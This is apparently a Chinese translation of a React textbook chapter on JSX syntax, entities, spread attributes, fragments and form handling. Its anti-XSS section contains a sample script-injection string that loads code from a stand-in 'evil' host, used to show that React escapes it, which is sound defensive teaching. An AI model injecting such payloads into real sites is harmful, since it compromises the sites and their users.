

# 第五章：JSX

在前几章中，你已经看到 JSX 的运行效果。你知道它完全是关于编写包含 XML 的 JavaScript 表达式，看起来非常像 HTML。例如：

```
const hi = <h1>Hello</h1>;
```

并且你知道你总是可以通过包含更多用花括号括起来的 JavaScript 表达式来“打断” XML 的流程：

```
const planet = 'Earth';
const hi = <h1>Hello people of <em>{planet}</em>!</h1>;
```

就算这些表达式恰好是条件、循环或更多的 JSX：

```
const rock = 3;
const planet = <em>{rock === 3 ? 'Earth' : 'Some other place'}</em>;
const hi = <h1>Hello people of {planet}!</h1>;
```

在本章中，你将学习更多关于 JSX 的知识，并探索一些可能令你惊喜和/或喜爱的功能。

###### 注

要查看上述示例的实际效果，请从本书的仓库加载 *05.01.hellojsx.html*。该文件还说明了如何在同一页上拥有多个 React 应用程序。

# 几个工具

要尝试并熟悉 JSX 转换，你可以在 [*https://babeljs.io/repl*](https://babeljs.io/repl) 上使用实时编辑器（显示在 图 5-1）。确保选中 “Prettify” 选项以获得更好的结果可读性。


###### 图 5-1\. Babel 作为一个实时 JSX 转换工具

如你在 图 5-2 中所见，JSX 转换是轻量且简单的：来自 第一章 的 “Hello world!” 的 JSX 源代码成为了一系列对 `React.createElement()` 的调用，使用了 React 工作的函数语法。它只是 JavaScript，所以很容易阅读和理解。


###### 图 5-2\. “Hello World” 转换

当你学习 JSX 或者将现有应用程序的标记从 HTML 过渡到 JSX 时，另一个在线工具可能会对你有帮助，即 [HTML 到 JSX 编译器](https://magic.reactjs.net/htmltojsx.htm)（显示在 图 5-3）。


###### 图 5-3\. HTML 到 JSX 工具

现在，让我们来看一些 JSX 的特殊之处。

# JSX 中的空白

JSX 中的空白与 HTML 类似但并非完全相同。例如，如果你有以下的 JSX：

```
function Example1() {
  return (
    <h1>
      {1} plus {2} is   {3}
    </h1>
  );
}
```

当 React 在浏览器中渲染它时（你可以在浏览器的开发工具中检查生成的 HTML），生成的 HTML 如下所示：

```
<h1>1 plus 2 is   3</h1>
```

这实际上是一个具有五个子节点的 `h1` DOM 节点，这些子节点是文本元素节点，内容分别是：“1”，“plus”，“2”，“is” 和 “3”，在浏览器中渲染为 “1 plus 2 is 3。” 正如在 HTML 中所预期的那样，多个空格在浏览器中渲染时会变成一个，如 图 5-4 所示。



###### 图 5-4\. 渲染空白（参见仓库中的 *05.02.whitespace.html*）

然而，在下一个例子中：

```
function Example2() {
  return (
    <h1>
      {1}
      plus
      {2}
      is
      {3}
    </h1>
  );
}
```

…你最终会得到：

```
<h1>
  1plus2is3
</h1>
```

正如你所见，所有的空白都被修剪掉了，所以在浏览器中显示的最终结果是 “1plus2is3。” 你可以随时在需要的地方添加 `{' '}` 来增加空格，或者将字面字符串转换为表达式并在那里添加空格。换句话说，这些都可以工作：

```
function Example3() {
  return (
    <h1>
      {/* space expressions */}
      {1}
      {' '}plus{' '}
      {2}
      {' '}is{' '}
      {3}
    </h1>
  );
}
```

```
function Example4() {
  return (
    <h1>
      {/* space glued to string expressions */}
      {1}
      {' plus '}
      {2}
      {' is '}
      {3}
    </h1>
  );
}
```

# JSX 中的注释

在前面的例子中，你看到一个新概念悄悄进入了——在 JSX 标记中添加注释。

因为用 `{// comment}` 作为单行注释不起作用（`}` 现在被注释掉了），使用单行注释几乎没有好处。您可以保持评论的一致性，并在所有情况下坚持使用多行注释。

```
<h1>
  {/* multiline comment */}
  {/*
 multi
 line
 comment
 */}
  {
    // single line
  }
  Hello!
</h1>
```

因为 `{// comment}` 不起作用（`}` 现在被注释掉了），使用单行注释几乎没有好处。您可以保持您的评论一致，并在所有情况下坚持使用多行注释。

# HTML 实体（HTML Entities）

您可以在 JSX 中像这样使用 HTML 实体：

```
<h2>
  More info &raquo;
</h2>
```

此示例生成一个“双右角引号”，如图 5-5 所示。


###### 图 5-5\. JSX 中的 HTML 实体

但是，如果您将实体用作表达式的一部分，将会遇到双重编码问题。在此示例中，HTML 被编码：

```
<h2>
  {"More info &raquo;"}
</h2>
```

您可以在图 5-6 中看到结果。


###### 图 5-6\. 双重编码的 HTML 实体

为了防止双重编码，您可以使用 HTML 实体的 Unicode 版本，例如 `\u00bb`（请参阅[*https://dev.w3.org/html5/html-author/charref*](https://dev.w3.org/html5/html-author/charref)）：

```
<h2>
  {"More info \u00bb"}
</h2>
```

为方便起见，您可以在模块顶部的某处定义一个常量，以及任何常见的间距。例如：

```
const RAQUO = ' \u00bb';
```

然后您可以在需要的任何地方使用该常量，例如：

```
<h2>
  {"More info" + RAQUO}
</h2>
<h2>
  {"More info"}{RAQUO}
</h2>
```

## 反跨站脚本攻击（Anti-XSS）

您可能会想知道为什么您必须绕过许多障碍才能使用 HTML 实体。有一个重要的原因超过了缺点：您需要对抗跨站脚本攻击（XSS）。

React 会转义所有字符串以防止一类 XSS 攻击。因此，当您要求用户提供输入并且他们提供了一个恶意字符串时，React 会保护您。例如，接受用户输入：

```
const firstname =
  'John<scr'+'ipt src="https://evil/co.js"></scr'+'ipt>';
```

在某些情况下，您可能会将此写入 DOM 中。例如：

```
document.write(firstname);
```

这是一个灾难，因为页面上显示“John”，但`<script>`标签加载了一个潜在恶意的第三方网站的 JavaScript，很可能由犯罪分子拥有。这会危及您的应用程序，进而危害信任您的用户。

React 在开箱即用的情况下为您提供了保护机制。当您执行以下操作时，React 会转义`firstname`的内容（如图 5-7 所示）：

```
function Example() {
  const firstname =
    'John<scr' + 'ipt src="https://evil/co.js"></scr' + 'ipt>';
  return <h2>Hello {firstname}!</h2>;
}
```


###### 图 5-7\. 转义字符串（请参阅*05.05.antixss.html*在代码库中）

# 扩展属性（Spread Attributes）

JSX 从 ECMAScript 借用了一项称为*扩展运算符*的功能，并将其作为定义属性的便利方法采纳。

假设您有一组要传递给`<a>`组件的属性：

```
const attr = {
  href: 'https://example.org',
  target: '_blank',
};
```

您始终可以这样做：

```
return (
  <a
    href={attr.href}
    target={attr.target}>
    Hello
  </a>
);
```

但这感觉像是大量的样板代码。通过使用扩展属性，您可以在一行中完成此操作：

```
return <a {...attr}>Hello</a>;
```

在上面的示例中（参见仓库中的 *05.06.spread.html*），您有一个要预先定义的属性对象，也许其中一些是有条件的。展开属性的另一个常见用法是当您从外部获取这个属性对象时——通常是从父组件获取。让我们看看这种情况是如何发生的。

## 父到子的展开属性

假设您正在构建一个 `FancyLink` 组件，它在幕后使用常规的 `<a>`。您希望您的组件接受所有 `<a>` 所具有的属性（`href`、`target`、`rel` 等）以及一些不属于 HTML 标准的属性（例如 `variant`）。人们可以像这样使用您的组件：

```
<FancyLink
  href="https://example.org"
  rel="canonical"
  target="_blank"
  variant="small">
  Follow me
</FancyLink>
```

您的组件如何利用展开属性并避免重新定义所有 `<a>` 的属性？

下面是一种方法，您的应用程序可能仅允许链接有 3 种尺寸，并允许组件的用户通过自定义 `variant` 属性指定所需的尺寸。您可以借助 `switch` 语句和 CSS 类来实现大小调整。然后将所有其他属性传递给 `<a>`：

```
function FancyLink(props) {
  const classes = ['link-core'];
  switch (props.variant) {
    case 'small':
      classes.push('link-small');
      break;
    case 'huge':
      classes.push('link-huge');
      break;
    default:
      classes.push('link-default');
  }

  return (
    <a {...props} className={classes.join(' ')}>
      {props.children}
    </a>
  );
}
```

###### 注意

您注意到使用了 `props.children` 吗？这是允许传递任意数量子元素到您的组件中的便捷方式，您可以在组合 UI 时访问这些子元素。对于 `FancyLink` 组件，以下内容是完全有效的：

```
<FancyLink>
  <span>Follow me</span>
</FancyLink>
```

在上述代码片段中，您可以根据 `variant` 属性的值进行自定义处理，然后将所有属性简单地传递给 `<a>`。这包括 `variant` 属性，它将出现在生成的 DOM 中，尽管浏览器对其无用。

您可以更好地避免传递不必要的属性，通过克隆传递给您的 props，并删除浏览器无法忽略的属性。像这样：

```
function FancyLink(props) {
  const classes = ['link-core'];
  switch (props.variant) {
    // same as before...
  }

  const attribs = Object.assign({}, props); // shallow clone
  delete attribs.variant;

  return (
    <a {...attribs} className={classes.join(' ')}>
      {props.children}
    </a>
  );
}
```

另一种浅克隆的方法是使用 JavaScript 展开运算符：

```
const attribs = {...props};
```

此外，您可以仅克隆您将传递给浏览器的 props，并同时将其他 props 分配给本地变量（从而无需后续删除），这一切可以在一行内完成：

```
const {variant, ...attribs} = props;
```

因此，`FancyLink` 的最终结果可能如下所示（参见仓库中的 *05.07.fancylink.html*）：

```
function FancyLink(props) {
  const {variant, ...attribs} = props;
  const classes = ['link-core'];
  switch (variant) {
    // same as before...
  }

  return (
    <a {...attribs} className={classes.join(' ')}>
      {props.children}
    </a>
  );
}
```

# 在 JSX 中返回多个节点

您总是需要从渲染函数返回单个节点（或数组）。不允许返回两个节点。换句话说，以下内容是错误的：

```
// Syntax error:
//   Adjacent JSX elements must be wrapped in an enclosing tag
function InvalidExample() {
  return (
    <span>
      Hello
    </span>
    <span>
      World
    </span>
  );
}
```

## 一个包装器

修复方法很简单——只需将所有节点包装在另一个组件中，比如 `<div>`（同时在 "Hello" 和 "World" 之间添加一个空格）：

```
function Example() {
  return (
    <div>
      <span>Hello</span>
      {' '}
      <span>World</span>
    </div>
  );
}
```

## 一个片段

为了消除额外的包装器元素的需要，React 的更新版本添加了 *fragments*，它们是包装器，在组件渲染时不会添加额外的 DOM 节点。

```
function FragmentExample() {
  return (
    <React.Fragment>
      <span>Hello</span>
      {' '}
      <span>World</span>
    </React.Fragment>
  );
}
```

此外，可以省略 `React.Fragment` 部分，这些空元素也可以工作：

```
function FragmentExample() {
  return (
    <>
      <span>Hello</span>
      {' '}
      <span>World</span>
    </>
  );
}
```

###### 注意

此时，浏览器版本的 Babel 不支持 `<></>` 语法，您需要明确写出 `React.Frag⁠ment`。

## 一个数组

另一个选项是返回一个*数组*的节点，只要数组中的节点有适当的 `key` 属性即可。请注意，在数组的每个元素后面都需要逗号。

```
function ArrayExample() {
  return [
    <span key="a">Hello</span>,
    ' ',
    <span key="b">World</span>,
    '!'
  ];
}
```

正如您所见，您还可以在数组中插入空格和其他字符串，而这些不需要 `key`。在某种程度上，这类似于从父组件传递任意数量的子节点并在渲染函数中传播它们：

```
function ChildrenExample(props) {
  console.log(props.children.length); // 4
  return (
    <div>
      {props.children}
    </div>
  );
}

ReactDOM.render(
  <ChildrenExample>
    <span key="greet">Hello</span>
    {' '}
    <span key="world">World</span>
    !
  </ChildrenExample>,
  document.getElementById('app')
);
```

# JSX 和 HTML 的区别

JSX 应该看起来很熟悉 —— 它就像 HTML，只是更严格，因为它是 XML。它还有额外的好处，可以轻松添加动态值、循环和条件（只需用 `{}` 包裹它们）。

要开始使用 JSX，您可以始终使用 [HTML-to-JSX 编译器](https://magic.reactjs.net/htmltojsx.htm)，但是越早开始键入您自己的 JSX，效果越好。让我们考虑一下可能会让您感到惊讶的几个 HTML 和 JSX 之间的区别。

一些这些差异在前面的章节中已经提到过，但让我们快速回顾一下它们。

## 没有班级，为什么？

而不是 `class` 和 `for` 属性（在 ECMAScript 中都是保留字），您需要使用 `className` 和 `htmlFor`：

```
// Warning: Invalid DOM property `class`. Did you mean `className`?
// Warning: Invalid DOM property `for`. Did you mean `htmlFor`?
const em = <em class="important" />;
const label = <label for="thatInput" />;

// OK
const em = <em className="important" />;
const label = <label htmlFor="thatInput" />;
```

## 样式是一个对象

`style` 属性接受一个对象值，而不是常规 HTML 中用分号分隔的字符串。CSS 属性的名称使用驼峰命名法，而不是破折号分隔：

```
// Error: The `style` prop expects a mapping from style properties to values
function InvalidStyle() {
  return <em style="font-size: 2em; line-height: 1.6" />;
}

// OK
function ValidStyle() {
  const styles = {
    fontSize: '2em',
    lineHeight: '1.6',
  };
  return <em style={styles}>Valid style</em>;
}

// inline is also OK
// note the double curly braces:
// one for the dynamic value in JSX, one for the JS object
function InlineStyle() {
  return (
    <em style={{fontSize: '2em', lineHeight: '1.6'}}>Inline style</em>
  );
}
```

## 关闭标签

在 HTML 中，有些标签不需要关闭；在 JSX（XML）中，所有标签都需要关闭：

```
// NO-NO
// no unclosed tags, even though they are fine in HTML
const gimmeabreak = <br>;
const list = <ul><li>item</ul>;
const meta = <meta charset="utf-8">;

// OK
const gimmeabreak = <br />;
const list = <ul><li>item</li></ul>;
const meta = <meta charSet="utf-8" />;

// or
const meta = <meta charSet="utf-8"></meta>;
```

## 驼峰命名法属性

您是否注意到前面片段中的 `charset` 与 `charSet`？JSX 中的所有属性都需要使用驼峰命名法。这是刚开始时常见的混淆来源 —— 您可能会输入 `onclick`，但直到将其改为 `onClick` 才注意到没有任何操作：

```
// Warning: Invalid event handler property `onclick`. Did you mean `onClick`?
const a = <a onclick="reticulateSplines()" />;

// OK
const a = <a onClick={reticulateSplines} />;
```

例外的规则是所有 `data-` 和 `aria-` 前缀的属性，JSX 不要求使用驼峰命名法。

# 命名空间组件

有时您可能希望有一个返回多个组件的单个对象。这可以用于实现所谓的*命名空间*，其中库的所有组件具有相同的前缀。例如，`Library` 对象可以包含 `Reader` 和 `Book` 组件：

```
const Library = {
  Book({id}) {
    return `Book ${id}`;
  },
  Reader({id}) {
    return `Reader ${id}`;
  },
};
```

然后可以使用*点表示法*来引用这些：

```
<Library.Reader id={456} /> is reading <Library.Book id={123} />
```

# JSX 和表单

在处理表单时，JSX 和 HTML 有一些区别。让我们来看看。

## onChange 处理程序

在使用表单元素时，用户与其交互时会更改输入元素的值。在 React 中，您可以通过 `onChange` 属性订阅此类更改。这比在纯 DOM 中处理各种表单元素更方便。当在 `textarea` 和 `<input type="text">` 字段中键入时，`onChange` 在用户键入时触发，这比在元素失去焦点时触发更易于处理。这意味着不再需要订阅各种鼠标和键盘事件来监视键入更改。

考虑一个包含文本输入框和两个单选按钮的表单示例。更改处理程序简单地记录更改发生的位置及其元素的新值。正如你所见，你还可以有一个处理整个表单的更改的总体表单处理程序。如果希望在一个中心位置处理所有表单的更改，可以使用此功能。

```
function changeHandler(which, event) {
  console.log(
    `onChange called on the ${which} with value "${event.target.value}"`,
  );
}

function ExampleForm() {
  return (
    <form onChange={changeHandler.bind(null, 'form')}>
      <label>
        Type here:
        <br />
        <input type="text" onChange={changeHandler.bind(null, 'text input')} />
      </label>
      <div>Make your pick:</div>
      <label>
        <input
          type="radio"
          name="pick"
          value="option1"
          onChange={changeHandler.bind(null, 'radio 1')}
        />
        Option 1
      </label>
      <label>
        <input
          type="radio"
          name="pick"
          value="option2"
          onChange={changeHandler.bind(null, 'radio 2')}
        />
        Option 2
      </label>
    </form>
  );
}
```

你可以在书籍仓库中的 *05.11.forms.onchange.html* 示例中实时测试。当你在文本输入框中输入 `**x**` 时，更改处理程序将调用两次，因为它一次分配给输入框，一次分配给表单。在控制台中，你将看到：

```
onChange called on the text input with value "x"
onChange called on the form with value "x"
```

对于单选按钮也是如此。点击“选项 1”会在控制台中记录：

```
onChange called on the radio 1 with value "option1"
onChange called on the form with value "option1"
```

## value 与 defaultValue

在 HTML 中，如果你有 `<input id="i" value="hello" />`，然后通过输入“bye”更改值，你会得到：

```
i.value; // "bye"
i.getAttribute('value'); // "hello"
```

在 React 中，`value` 属性（通过事件处理程序中的 `event.target.value` 访问）始终具有文本输入的最新内容。如果你想指定初始默认值，可以使用 `defaultValue` 属性。

在下面的片段中，你有一个带有预填充内容“hello”和 `onChange` 处理程序的 `<input>` 组件。在“hello”末尾添加“!”后，`value` 是 “hello!”，而 `defaultValue` 保持为 “hello”（请参见书籍仓库中的 *05.12.forms.value.html*）：

```
function changeHandler({target}) {
  console.log('value: ', target.value);
  console.log('defaultValue: ', target.defaultValue);
}

function ExampleForm() {
  return (
    <form>
      <label>
        Type here: <input defaultValue="hello" onChange={changeHandler} />
      </label>
    </form>
  );
}
```

## `<textarea>` 的值

为了与文本输入保持一致，React 的 `<textarea>` 版本也接受 `defaultValue` 属性。它保持 `target.value` 的最新状态，而 `defaultValue` 保持原始值不变。如果你按照 HTML 的方式，并使用 `textarea` 的子元素定义值（不推荐，React 会给出警告），它将被视为 `defaultValue`。

HTML `<textarea>`（由 W3C 定义）接受一个子元素作为其值的原因是，开发人员可以在输入中使用换行符。但是 React 作为全 JavaScript，不受此限制。当你需要换行时，只需使用 `\n`。

```
function ExampleTextarea() {
  return (
    <form>
      <label>
        Type here:{' '}
        <textarea
          defaultValue={'hello\nworld'}
          onChange={changeHandler}
        />{' '}
      </label>
    </form>
  );
}
```

注意，你需要使用 JavaScript 字面量 `{'hello\nworld'}`。否则，如果使用字面字符串属性值（例如 `defaultValue="hello\nworld"`），你无法访问 `\n` 的特殊换行含义。

## `<select>` 的值

当你在 HTML 中使用 `<select>` 输入时，可以通过 `<option selected>` 指定预选条目，如下所示：

```
<!-- old school HTML -->
<select>
  <option value="stay">Should I stay</option>
  <option value="move" selected>or should I go</option>
</select>
```

在 React 中，你需要指定 `<select>` 元素的 `value` 或 `defaultValue` 属性：

```
// React/JSX
function ExampleSelect() {
  return (
    <form>
      <select defaultValue="move" onChange={changeHandler}>
        <option value="stay">Should I stay</option>
        <option value="move">or should I go</option>
      </select>
    </form>
  );
}
```

###### 注意

React 会在你混淆并设置 `<option>` 的 `selected` 属性时发出警告。

处理多选项类似，只需提供预选值的数组：

```
function ExampleMultiSelect() {
  return (
    <form>
      <select
        defaultValue={['stay', 'move']}
        multiple={true}
        onChange={selectHandler}>
        <option value="stay">Should I stay</option>
        <option value="move">or should I go</option>
        <option value="trouble">If I stay it will be trouble</option>
      </select>
    </form>
  );
}
```

注意，在处理多选项时，你无法在更改处理程序中获取 `event.target.value`。与 HTML 类似，你需要迭代 `event.tar⁠get​.selectedOptions`。例如，记录所选值到控制台的处理程序可能如下所示：

```
function selectHandler({target}) {
  console.log(
    Array.from(target.selectedOptions).map((option) => option.value),
  );
}
```

## 受控组件与非受控组件

在非 React 世界中，浏览器会维护表单元素的状态，例如文本输入框中的文本。即使你离开页面再回来，状态可能也会恢复。React 支持这种行为，但也允许你接管表单元素状态的控制。

当你让表单元素按照浏览器的意愿行事时，它们被称为*不受控组件*，因为 React 不控制它们。相反，当你使用 React 接管时，它们就成为*受控组件*。

如何区分它们？当你设置文本输入框、`textarea`和选择框的`value`属性，或者单选按钮和复选框的`checked`属性时，组件就是*受控的*。

当你不设置这些属性时，组件将变为*不受控制*。你仍然可以使用`defaultValue`属性（正如本章节的几个示例所示）为表单元素设置默认值。对于单选按钮和复选框，可以使用`defaultChecked`。

让我们通过几个例子澄清这些概念。

### 不受控组件示例

这是一个不受控文本输入框的示例：

```
const input = <input type="text" name="firstname" />;
```

如果要在输入框中预填文本，请使用`defaultValue`：

```
const input = <input type="text" name="firstname" defaultValue="Jessie" />;
```

当你想获取用户输入的值时，可以在输入框或整个表单上使用`onChange`处理程序，正如之前的示例所示。让我们考虑一个更完整的例子。想象一下，你正在创建一个配置文件编辑表单。你的数据是：

```
const profile = {
  firstname: 'Jessie',
  lastname: 'Pinkman',
  gender: 'male',
  acceptedTOC: false,
};
```

表单需要两个文本输入框，两个单选按钮和一个复选框：

```
function UncontrolledForm() {
  return (
    <form onChange={updateProfile}>
      <label>
        First name:{' '}
        <input type="text" name="firstname" defaultValue={profile.firstname} />
      </label>
      <br />
      <label>
        Last name:{' '}
        <input type="text" name="lastname" defaultValue={profile.lastname} />
      </label>
      <br />
      Gender:
      <label>
        <input
          type="radio"
          name="gender"
          defaultChecked={profile.gender === 'male'}
          value="male"
        />
        Male
      </label>
      <label>
        <input
          type="radio"
          name="gender"
          defaultChecked={profile.gender === 'female'}
          value="female"
        />
        Female
      </label>
      <br />
      <label>
        <input
          type="checkbox"
          name="acceptTOC"
          defaultChecked={profile.acceptTOC === true}
        />
        I accept terms and things
      </label>
    </form>
  );
}
```

###### 注意

单选按钮确实有`value`属性，但这并不使它们成为受控组件。当设置它们的`checked`属性时，单选按钮（以及复选框）才会成为受控组件。

`updateProfile()`事件处理程序应该更新`profile`对象。这可以非常简单和通用。对于复选框（`event.target.type === 'checkbox'`），你需要查看`target.checked`属性。在其他所有情况下，你需要获取`target.value`。

```
function updateProfile({target}) {
  profile[target.name] =
    target.type === 'checkbox' ? target.checked === true : target.value;
  console.log(profile);
}
```

图 5-8 展示了在更改性别、接受条款并更新名字后如何更新配置文件（请参见存储库中的*05.13.uncontrolled.html*）。

为什么要区别对待复选框（查看`checked`属性），但不是单选按钮？HTML 中的单选按钮很特殊，因为你可以有多个名称相同但值不同的输入，通过名称获取值。如果需要，你仍然可以访问单选按钮的`target.checked`，但在这种情况下并不是必需的。它总是`true`，因为在点击元素时会调用`onChange`回调，在点击单选按钮时总是选中的。


###### 图 5-8。操作中的不受控组件

### 使用 onSubmit 处理程序的不受控组件示例

如果你不想对每一次更改做出(过度)反应呢？你想让用户在表单上玩耍，只有在他们提交表单时才担心数据。在这种情况下，你有两个选择：

+   使用内置的 DOM 集合

+   使用 React 创建的引用

看看如何使用 DOM 集合（请参阅存储库中的*05.14.uncontrolled.onsubmit.html*）。表单本质上是相同的，除了`onSubmit`事件处理程序和一个新的提交按钮：

```
<form onSubmit={updateProfile}>
  {/* same thing as before ... */}
  <input type="submit" value="Save"/>
</form>
```

这是新更新的`updateProfile()`的示例：

```
function updateProfile(ev) {
  ev.preventDefault();
  const form = ev.target;
  Object.keys(profile).forEach((name) => {
    const element = form[name];
    profile[name] =
      element.type === 'checkbox' ? element.checked : element.value;
  });
}
```

首先，`preventDefault()`阻止事件传播并避免浏览器默认的重新加载页面行为。然后只需循环遍历 profile 的字段，并找到具有相同名称的相应表单元素。

DOM 提供了通过各种方式访问表单元素集合的方法之一，其中之一是通过名称。例如：

```
form.elements.length; // 6
form.elements[0].value; // "Jessie", access by index
form.elements['firstname'].value; // "Jessie", access by name
form.firstname.value; // "Jessie", even shorter
```

这是`updateProfile()`在其循环中使用的这种 DOM 表单访问的最后一种变体。

### 受控组件示例

一旦您分配了`value`属性（对于`text`输入、`textarea`或`select`）或`checked`（对于`radio`输入或`checkbox`），那么您就需要负责控制该组件。您需要将输入的状态作为组件状态的一部分进行维护。因此，现在整个表单都需要成为*有状态的*组件。让我们看看如何通过类组件实现：

```
class ControlledForm extends React.Component {
  constructor() {
    // ...
  }
  updateForm({target}) {
    // ...
  }
  render() {
    return (
      <form>
        {/* ... */}
      </form>
    );
  }
}
```

假设除了表单本身外没有其他状态需要维护，您可以将`profile`对象作为组件初始状态的一部分进行克隆。您还需要绑定`updateForm()`方法：

```
constructor() {
  super();
  this.state = {...profile};
  this.updateForm = this.updateForm.bind(this);
}
```

现在表单元素设置`value`而不是`defaultValue`，并且所有值都在`this.state`中维护。此外，现在所有输入都需要有一个`onChange`处理程序，因为它们现在是*受控*的。例如，第一个名字输入变成了：

```
<input
  type="text"
  name="firstname"
  value={this.state.firstname}
  onChange={this.updateForm}
/>
```

对于除提交按钮之外的其他元素，情况将类似，因为用户不会更改其值。

最后，`updateForm()`。使用动态属性名称（方括号中的`target.name`），它可以很简单。它所需做的就是读取表单元素的值并将其分配给状态。

```
updateForm({target}) {
  this.setState({
    [target.name]:
      target.type === 'checkbox' ? target.checked : target.value,
  });
}
```

在`setState()`调用之后，将重新呈现表单，并从更新后的状态中读取新的表单元素值（例如，`value={this.state.firstname}`）。

这就是受控组件的全部内容。正如您所见，您需要一些代码来起步。这是坏消息。好消息是，现在您可以从您的状态中更新表单值，这是唯一的真相源泉。您掌控局面。

那么哪种更好：受控还是非受控？这取决于您的用例。实际上并没有“更好”的选择。还要考虑到，在撰写本文时，官方的 React 文档中写道：“*在大多数情况下*，我们建议使用受控组件来实现表单。”

您可以混合和匹配受控和非受控组件吗？当然可以。在最后两个示例中，“保存”按钮始终是非受控的（`<input type="submit" value="Save" />`），因为没有*东西*可供控制；其`value`不能被用户更改。您始终可以选择混合：控制您需要的组件，其余交给浏览器处理。
